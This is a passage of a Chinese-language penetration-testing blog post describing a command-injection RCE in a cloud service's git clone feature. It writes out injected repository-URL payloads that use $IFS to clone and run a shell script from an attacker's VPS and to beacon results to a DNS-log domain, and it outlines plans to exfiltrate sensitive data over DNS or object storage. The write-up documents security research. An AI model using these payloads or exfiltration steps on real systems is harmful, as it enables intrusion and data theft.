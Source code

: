 居然可以！ 这下我们就能够成功将 shell 脚本传到服务器上了。

### 远程 clone

到这里，我才发现还有一个问题需要解决：我们并不知道服务器上的目录，不知道服务器保存 git 文件夹的物理路径，那我上传了之后根本不能 clone。  

回想前面提到的，git 是能够出公网的，干脆我们从远程 clone ，如今也就只有这一条路能够走通了，死马当活马医。

先上传一个含有 shell 文件的仓库，这里我们选择在自己 vps 上开启一个 git，github 的协议是不允许的。

然后执行如下的 payload：

```
https://github.com/qq;aaa=vpsip/malicious.git;bbb=clone;ccc=/tmp/dark;git$IFS$bbb$IFS$aaa$ccc;bash$IFS/tmp/dark/evil;test.git
```

当我在本地测试的时候，发现 `git clone vpsip/malicious.git` 居然是走的 ssh 协议，而 ssh 协议既要密钥，又要验证 host key 的指纹，而要走 http[s] 就要指明协议头，但是服务器把这些都过滤了，非常难受，这条路基本上死了。

![/styles/images/snort/p1.png]({{ '/styles/images/fantasy_pentest/3.png' | prepend: site.baseurl }})

## 0x05 柳暗花明

一个 RCE 从发现到利用肯定是循序渐进的，都走到这一步了不能轻言放弃。

经过不停尝试和不停对云架构的幻想和思考，我觉得一定有云服务和内网的服务器是相通的，不管是监控，还是 DMZ，还是各种数据集群、基础架构，肯定有没隔离到位的地方，而且有的服务我们用户也能访问。

于是，我把目标放在了对象存储上面，在不同的厂商有不同的叫法，比如 S3，COS，OSS，这些对象存储有可能能够直接和内网相通，为了优化速度或者之类的操作。

我们新建一个创建一个对象存储，设置为公开可访问，里面随便放个文件，用来验证是否能通。

```
https://github.com/qq;aaa=oss.aliyuncs.com/file;curl$IFS$aaa;curl$IFS$?.mydnslog.green-m.me;test.git
```

提取美化一下关键 payload
```
aaa=oss.aliyuncs.com/file
curl $aaa
curl $?.mydnslog.green-m.me
```

$? 表示上一条命令的退出代码，0 表示程序正常退出，无错误，异常退出就是其他不为 0 的数字。

通过这样的命令，我们如果 oss 和我们内网的服务器相通，那么就会发起 0.mydnslog.green-m.me 的请求，否则不通。

通过切换不同的区域，多次尝试，我们成功在 dnslog 中找到一条 0 的记录。

![/styles/images/snort/p1.png]({{ '/styles/images/fantasy_pentest/4.png' | prepend: site.baseurl }})

## 0x06 传输数据

花径不曾缘客扫，蓬门今始为君开。

现在我们有两条路，一条是通过 dns 传输数据，动静比较小；另外一条是把敏感数据都压缩打包，然后通过对象存储全部传出来，动静很大。

我们选择先通过 dns 摸清情况，然后再对象存储。
